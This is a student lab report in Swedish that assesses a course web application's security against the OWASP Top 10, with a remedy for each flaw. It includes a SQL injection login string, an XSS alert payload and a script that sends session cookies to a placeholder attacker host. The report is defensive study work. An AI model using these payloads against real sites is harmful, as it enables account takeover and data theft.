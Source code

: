 Ingela Bladh (ib222dp)

# Rapport, Labb 2

## Säkerhetsproblem

### Injektion

Injektion innebär att opålitlig data skickas till en programtolk som en del av ett kommando eller en fråga. Denna 
opålitliga data kan lura programtolken till att utföra kommandon eller ge åtkomst till data utan auktorisering [1, s. 6]. 
Jag kunde i denna applikation logga in genom att ange Bob' OR '1'='1 som lösenord, eftersom sökfrågan blir
SELECT * FROM user WHERE ... password = 'Bob' OR '1'='1';  
Injektion undviks genom att använda parametriserade sökfrågor, eftersom dessa förhindrar förvirring rörande specialtecken 
som '. Till exempel skulle databasen i detta fall sökas igenom för att hitta ett lösenord som innehåller ' OR '1='1 [2]. 
Validering av indata och vitlistning av tecken rekommenderas också, men är inte ett fullständigt skydd eftersom många 
applikationer behöver acceptera specialtecken som indata [1, s. 7].  

### Bristande autentisering och sessionshantering

Funktioner som har med autentisering och sessionshantering att göra implementeras ofta på ett felaktigt sätt. På så 
sätt kan angripare komma över lösenord, nycklar eller sessionstokens, eller utnyttja andra brister i implementationen
för att anta andra användares identiteter [1, s. 6]. I denna applikation förstörs inte sessionen vid utloggning. Detta
betyder att om en användare loggar in på applikationen på en publik dator och sedan loggar ut, så kan en annan användare
komma in på den tidigare användarens konto genom att trycka på bakåt-knappen eller skriva in <.../message> i 
webbläsarens adressfält. I detta fall bör man se till att sessionen förstörs vid utloggning, och att sessionen 
förstörs automatiskt efter en viss tid (eftersom användare kan använda applikationen på en publik dator och sedan stänga 
webbläsaren utan att logga ut) [1, s. 8].

### XSS (cross-site scripting)

XSS-brister uppstår när en applikation accepterar opålitlig data och skickar den till en webbläsare utan ordentlig
validering eller escape-sekvenser. Via XSS kan angripare exekvera skript i offrets webbläsare, vilka kan stjäla 
sessioner, förvanska webbplatser eller dirigera om användaren till skadliga webbplatser [1, s. 6].  
I denna applikation går det att skriva <<a href='#' onclick='alert(document.cookie)'>Hej</a>> som ett meddelande, 
och när man sedan klickar på länken syns sessionskakan i ett varningsfönster. Detta innebär att en angripare kan stjäla 
en användares sessionskaka och på så sätt få tillgång till dennes konto, genom att skriva till exempel 
"<script>document.location='http://attackersite/'+document.cookie</script>" som ett meddelande [2].  
XSS-brister undviks genom att validera indata och filtrera utdata [3]. Vitlistning av tillåtna tecken rekommenderas men 
är inte ett fullständigt skydd. Vilka escape-sekvenser som bör användas för utdata beror på kontexten som utdatan ska 
placeras i (till exempel HTML, Javasript eller CSS) [1, s. 9].

### Osäkra direkta objektreferenser

En direkt objektreferens inträffar när en utvecklare exponerar en referens till ett internt implementationsobjekt, som
till exempel en fil, en katalog eller en databasnyckel. Vid avsaknad av åtkomstkontroll eller annat skydd kan angripare
manipulera dessa referenser för att få åtkomst till data utan auktorisering [1, s. 6]. I denna applikation exponeras
varje meddelandes databasnyckel i ett dolt fält i HTML-koden, och eftersom ingen åtkomstkontroll görs i funktionerna
som har med radering av meddelanden att göra, skulle en användare kunna radera en annan användares meddelanden.  
Man kan undvika osäkra direkta objektreferenser genom att använda indirekta objektreferenser per användare eller per 
session. Till exempel kan en användare få se en numrerad dropdown-lista med de resurser hen har tillgång till, 
och applikationen kartlägger sedan vilken databasnyckel som numret framför resursen som användaren har valt matchar. Om 
direkta objektreferenser används är det viktigt att kontrollera att användaren är auktoriserad att få tillgång till det 
begärda objektet [1, s. 10].  

### Exponering av känslig data

Känslig data bör inte lagras eller transporteras i klartext. Angripare kan stjäla eller ändra dåligt skyddad data för 
att genomföra till exempel kreditkortsbedrägeri eller identitetsstöld [1, s. 6]. I denna applikation verkar lösenord 
sparas i klartext i databasen.  
Lösenord ska lagras med en algoritm som utformats speciellt för lösenordsskydd, som till exempel bcrypt, PBKDF2 eller 
scrypt [1, s. 12]. De ska inte krypteras utan hashas, eftersom krypterade lösenord kan dekrypteras. För att skydda mot 
att läckta hashade lösenord slås upp mot regnbågstabeller ska ett slumpat salt läggas till varje lösenord. För att 
försvåra "brute force"-attacker kan man hasha lösenordet flera gånger [3].  

### Saknad åtkomstkontroll på funktionsnivå

Utöver åtkomstkontroller på klienten måste applikationer också utföra åtkomstkontroller på servern varje gång en 
funktion anropas. Utan dessa kontroller kommer angripare att via egna anrop kunna komma åt funktionalitet utan
auktorisering [1, s. 6]. I denna applikation kan man komma åt meddelandena utan att logga in, genom att skriva in 
<.../message/data> i webbläsarens adressfält. Detta kan undvikas till exempel genom att lägga till en åtkomstkontroll 
i funktionen "getMessages" i filen "messageModel.js". Det är inte tillräckligt att inte visa länkar eller knappar till 
skyddade funktioner, utan åtkomstkontroller måste också utföras på servern [1, s. 13].

### CSRF (cross-site request forgery)

En CSRF-attack innebär att en inloggad användares webbläsare tvingas att skicka ett förfalskat http-anrop - som innehåller
användarens sessionskaka och annan automatiskt inkluderad autentiseringsinformation - till en sårbar webbapplikation.
På så sätt kan angriparen tvinga användarens webbläsare att skapa anrop som den sårbara applikationen tror är legitima
anrop från användaren [1, s. 6]. Denna applikation verkar inte ha tillräckligt skydd mot CSRF-attacker eftersom det inte
finns några dolda fält med slumpmässigt genererade värden i formulären. 

### Användning av komponenter med kända sårbarheter

Komponenter, som till exempel bibliotek, ramverk och andra programvarumoduler, körs nästan alltid med fullständiga 
rättigheter. Om en sårbar komponent utnyttjas kan en sådan attack medföra allvarlig dataförlust eller serverövertagande.
Om en applikation använder komponenter med kända sårbarheter kan detta undergräva applikationens försvarsmekanismer och
möjliggöra en rad attacker [1, s. 6]. I denna applikation verkar en gammal version av Jquery användas (v 1.10.2).

## Prestandaproblem



## Övergripande reflektioner



## Referenser

[1] * OWASP, "OWASP Top 10 - 2013 - The ten most critical web application security risks", *OWASP*, september 2015   
    * [Online] Tillgänglig: <https://www.owasp.org/index.php/Top10#OWASP_Top_10_for_2013>. [Hämtad: 23 november, 2015].
[2] * M. Coates, "Application Security - Understanding, exploiting and defending against top web vulnerabilities",   
    * *Youtube*, mars 2014 [Online] Tillgänglig: <https://www.youtube.com/watch?v=sY7pUJU8a7U>. [Hämtad: 23 november, 2015].  
[3] * J. Leitet, "Webbteknik II - HT13 - Webbsäkerhet", *Youtube*, november 2013 [Online]  
    * Tillgänglig: <https://www.youtube.com/watch?v=Gc_pc9TMEIk>. [Hämtad: 23 november, 2015].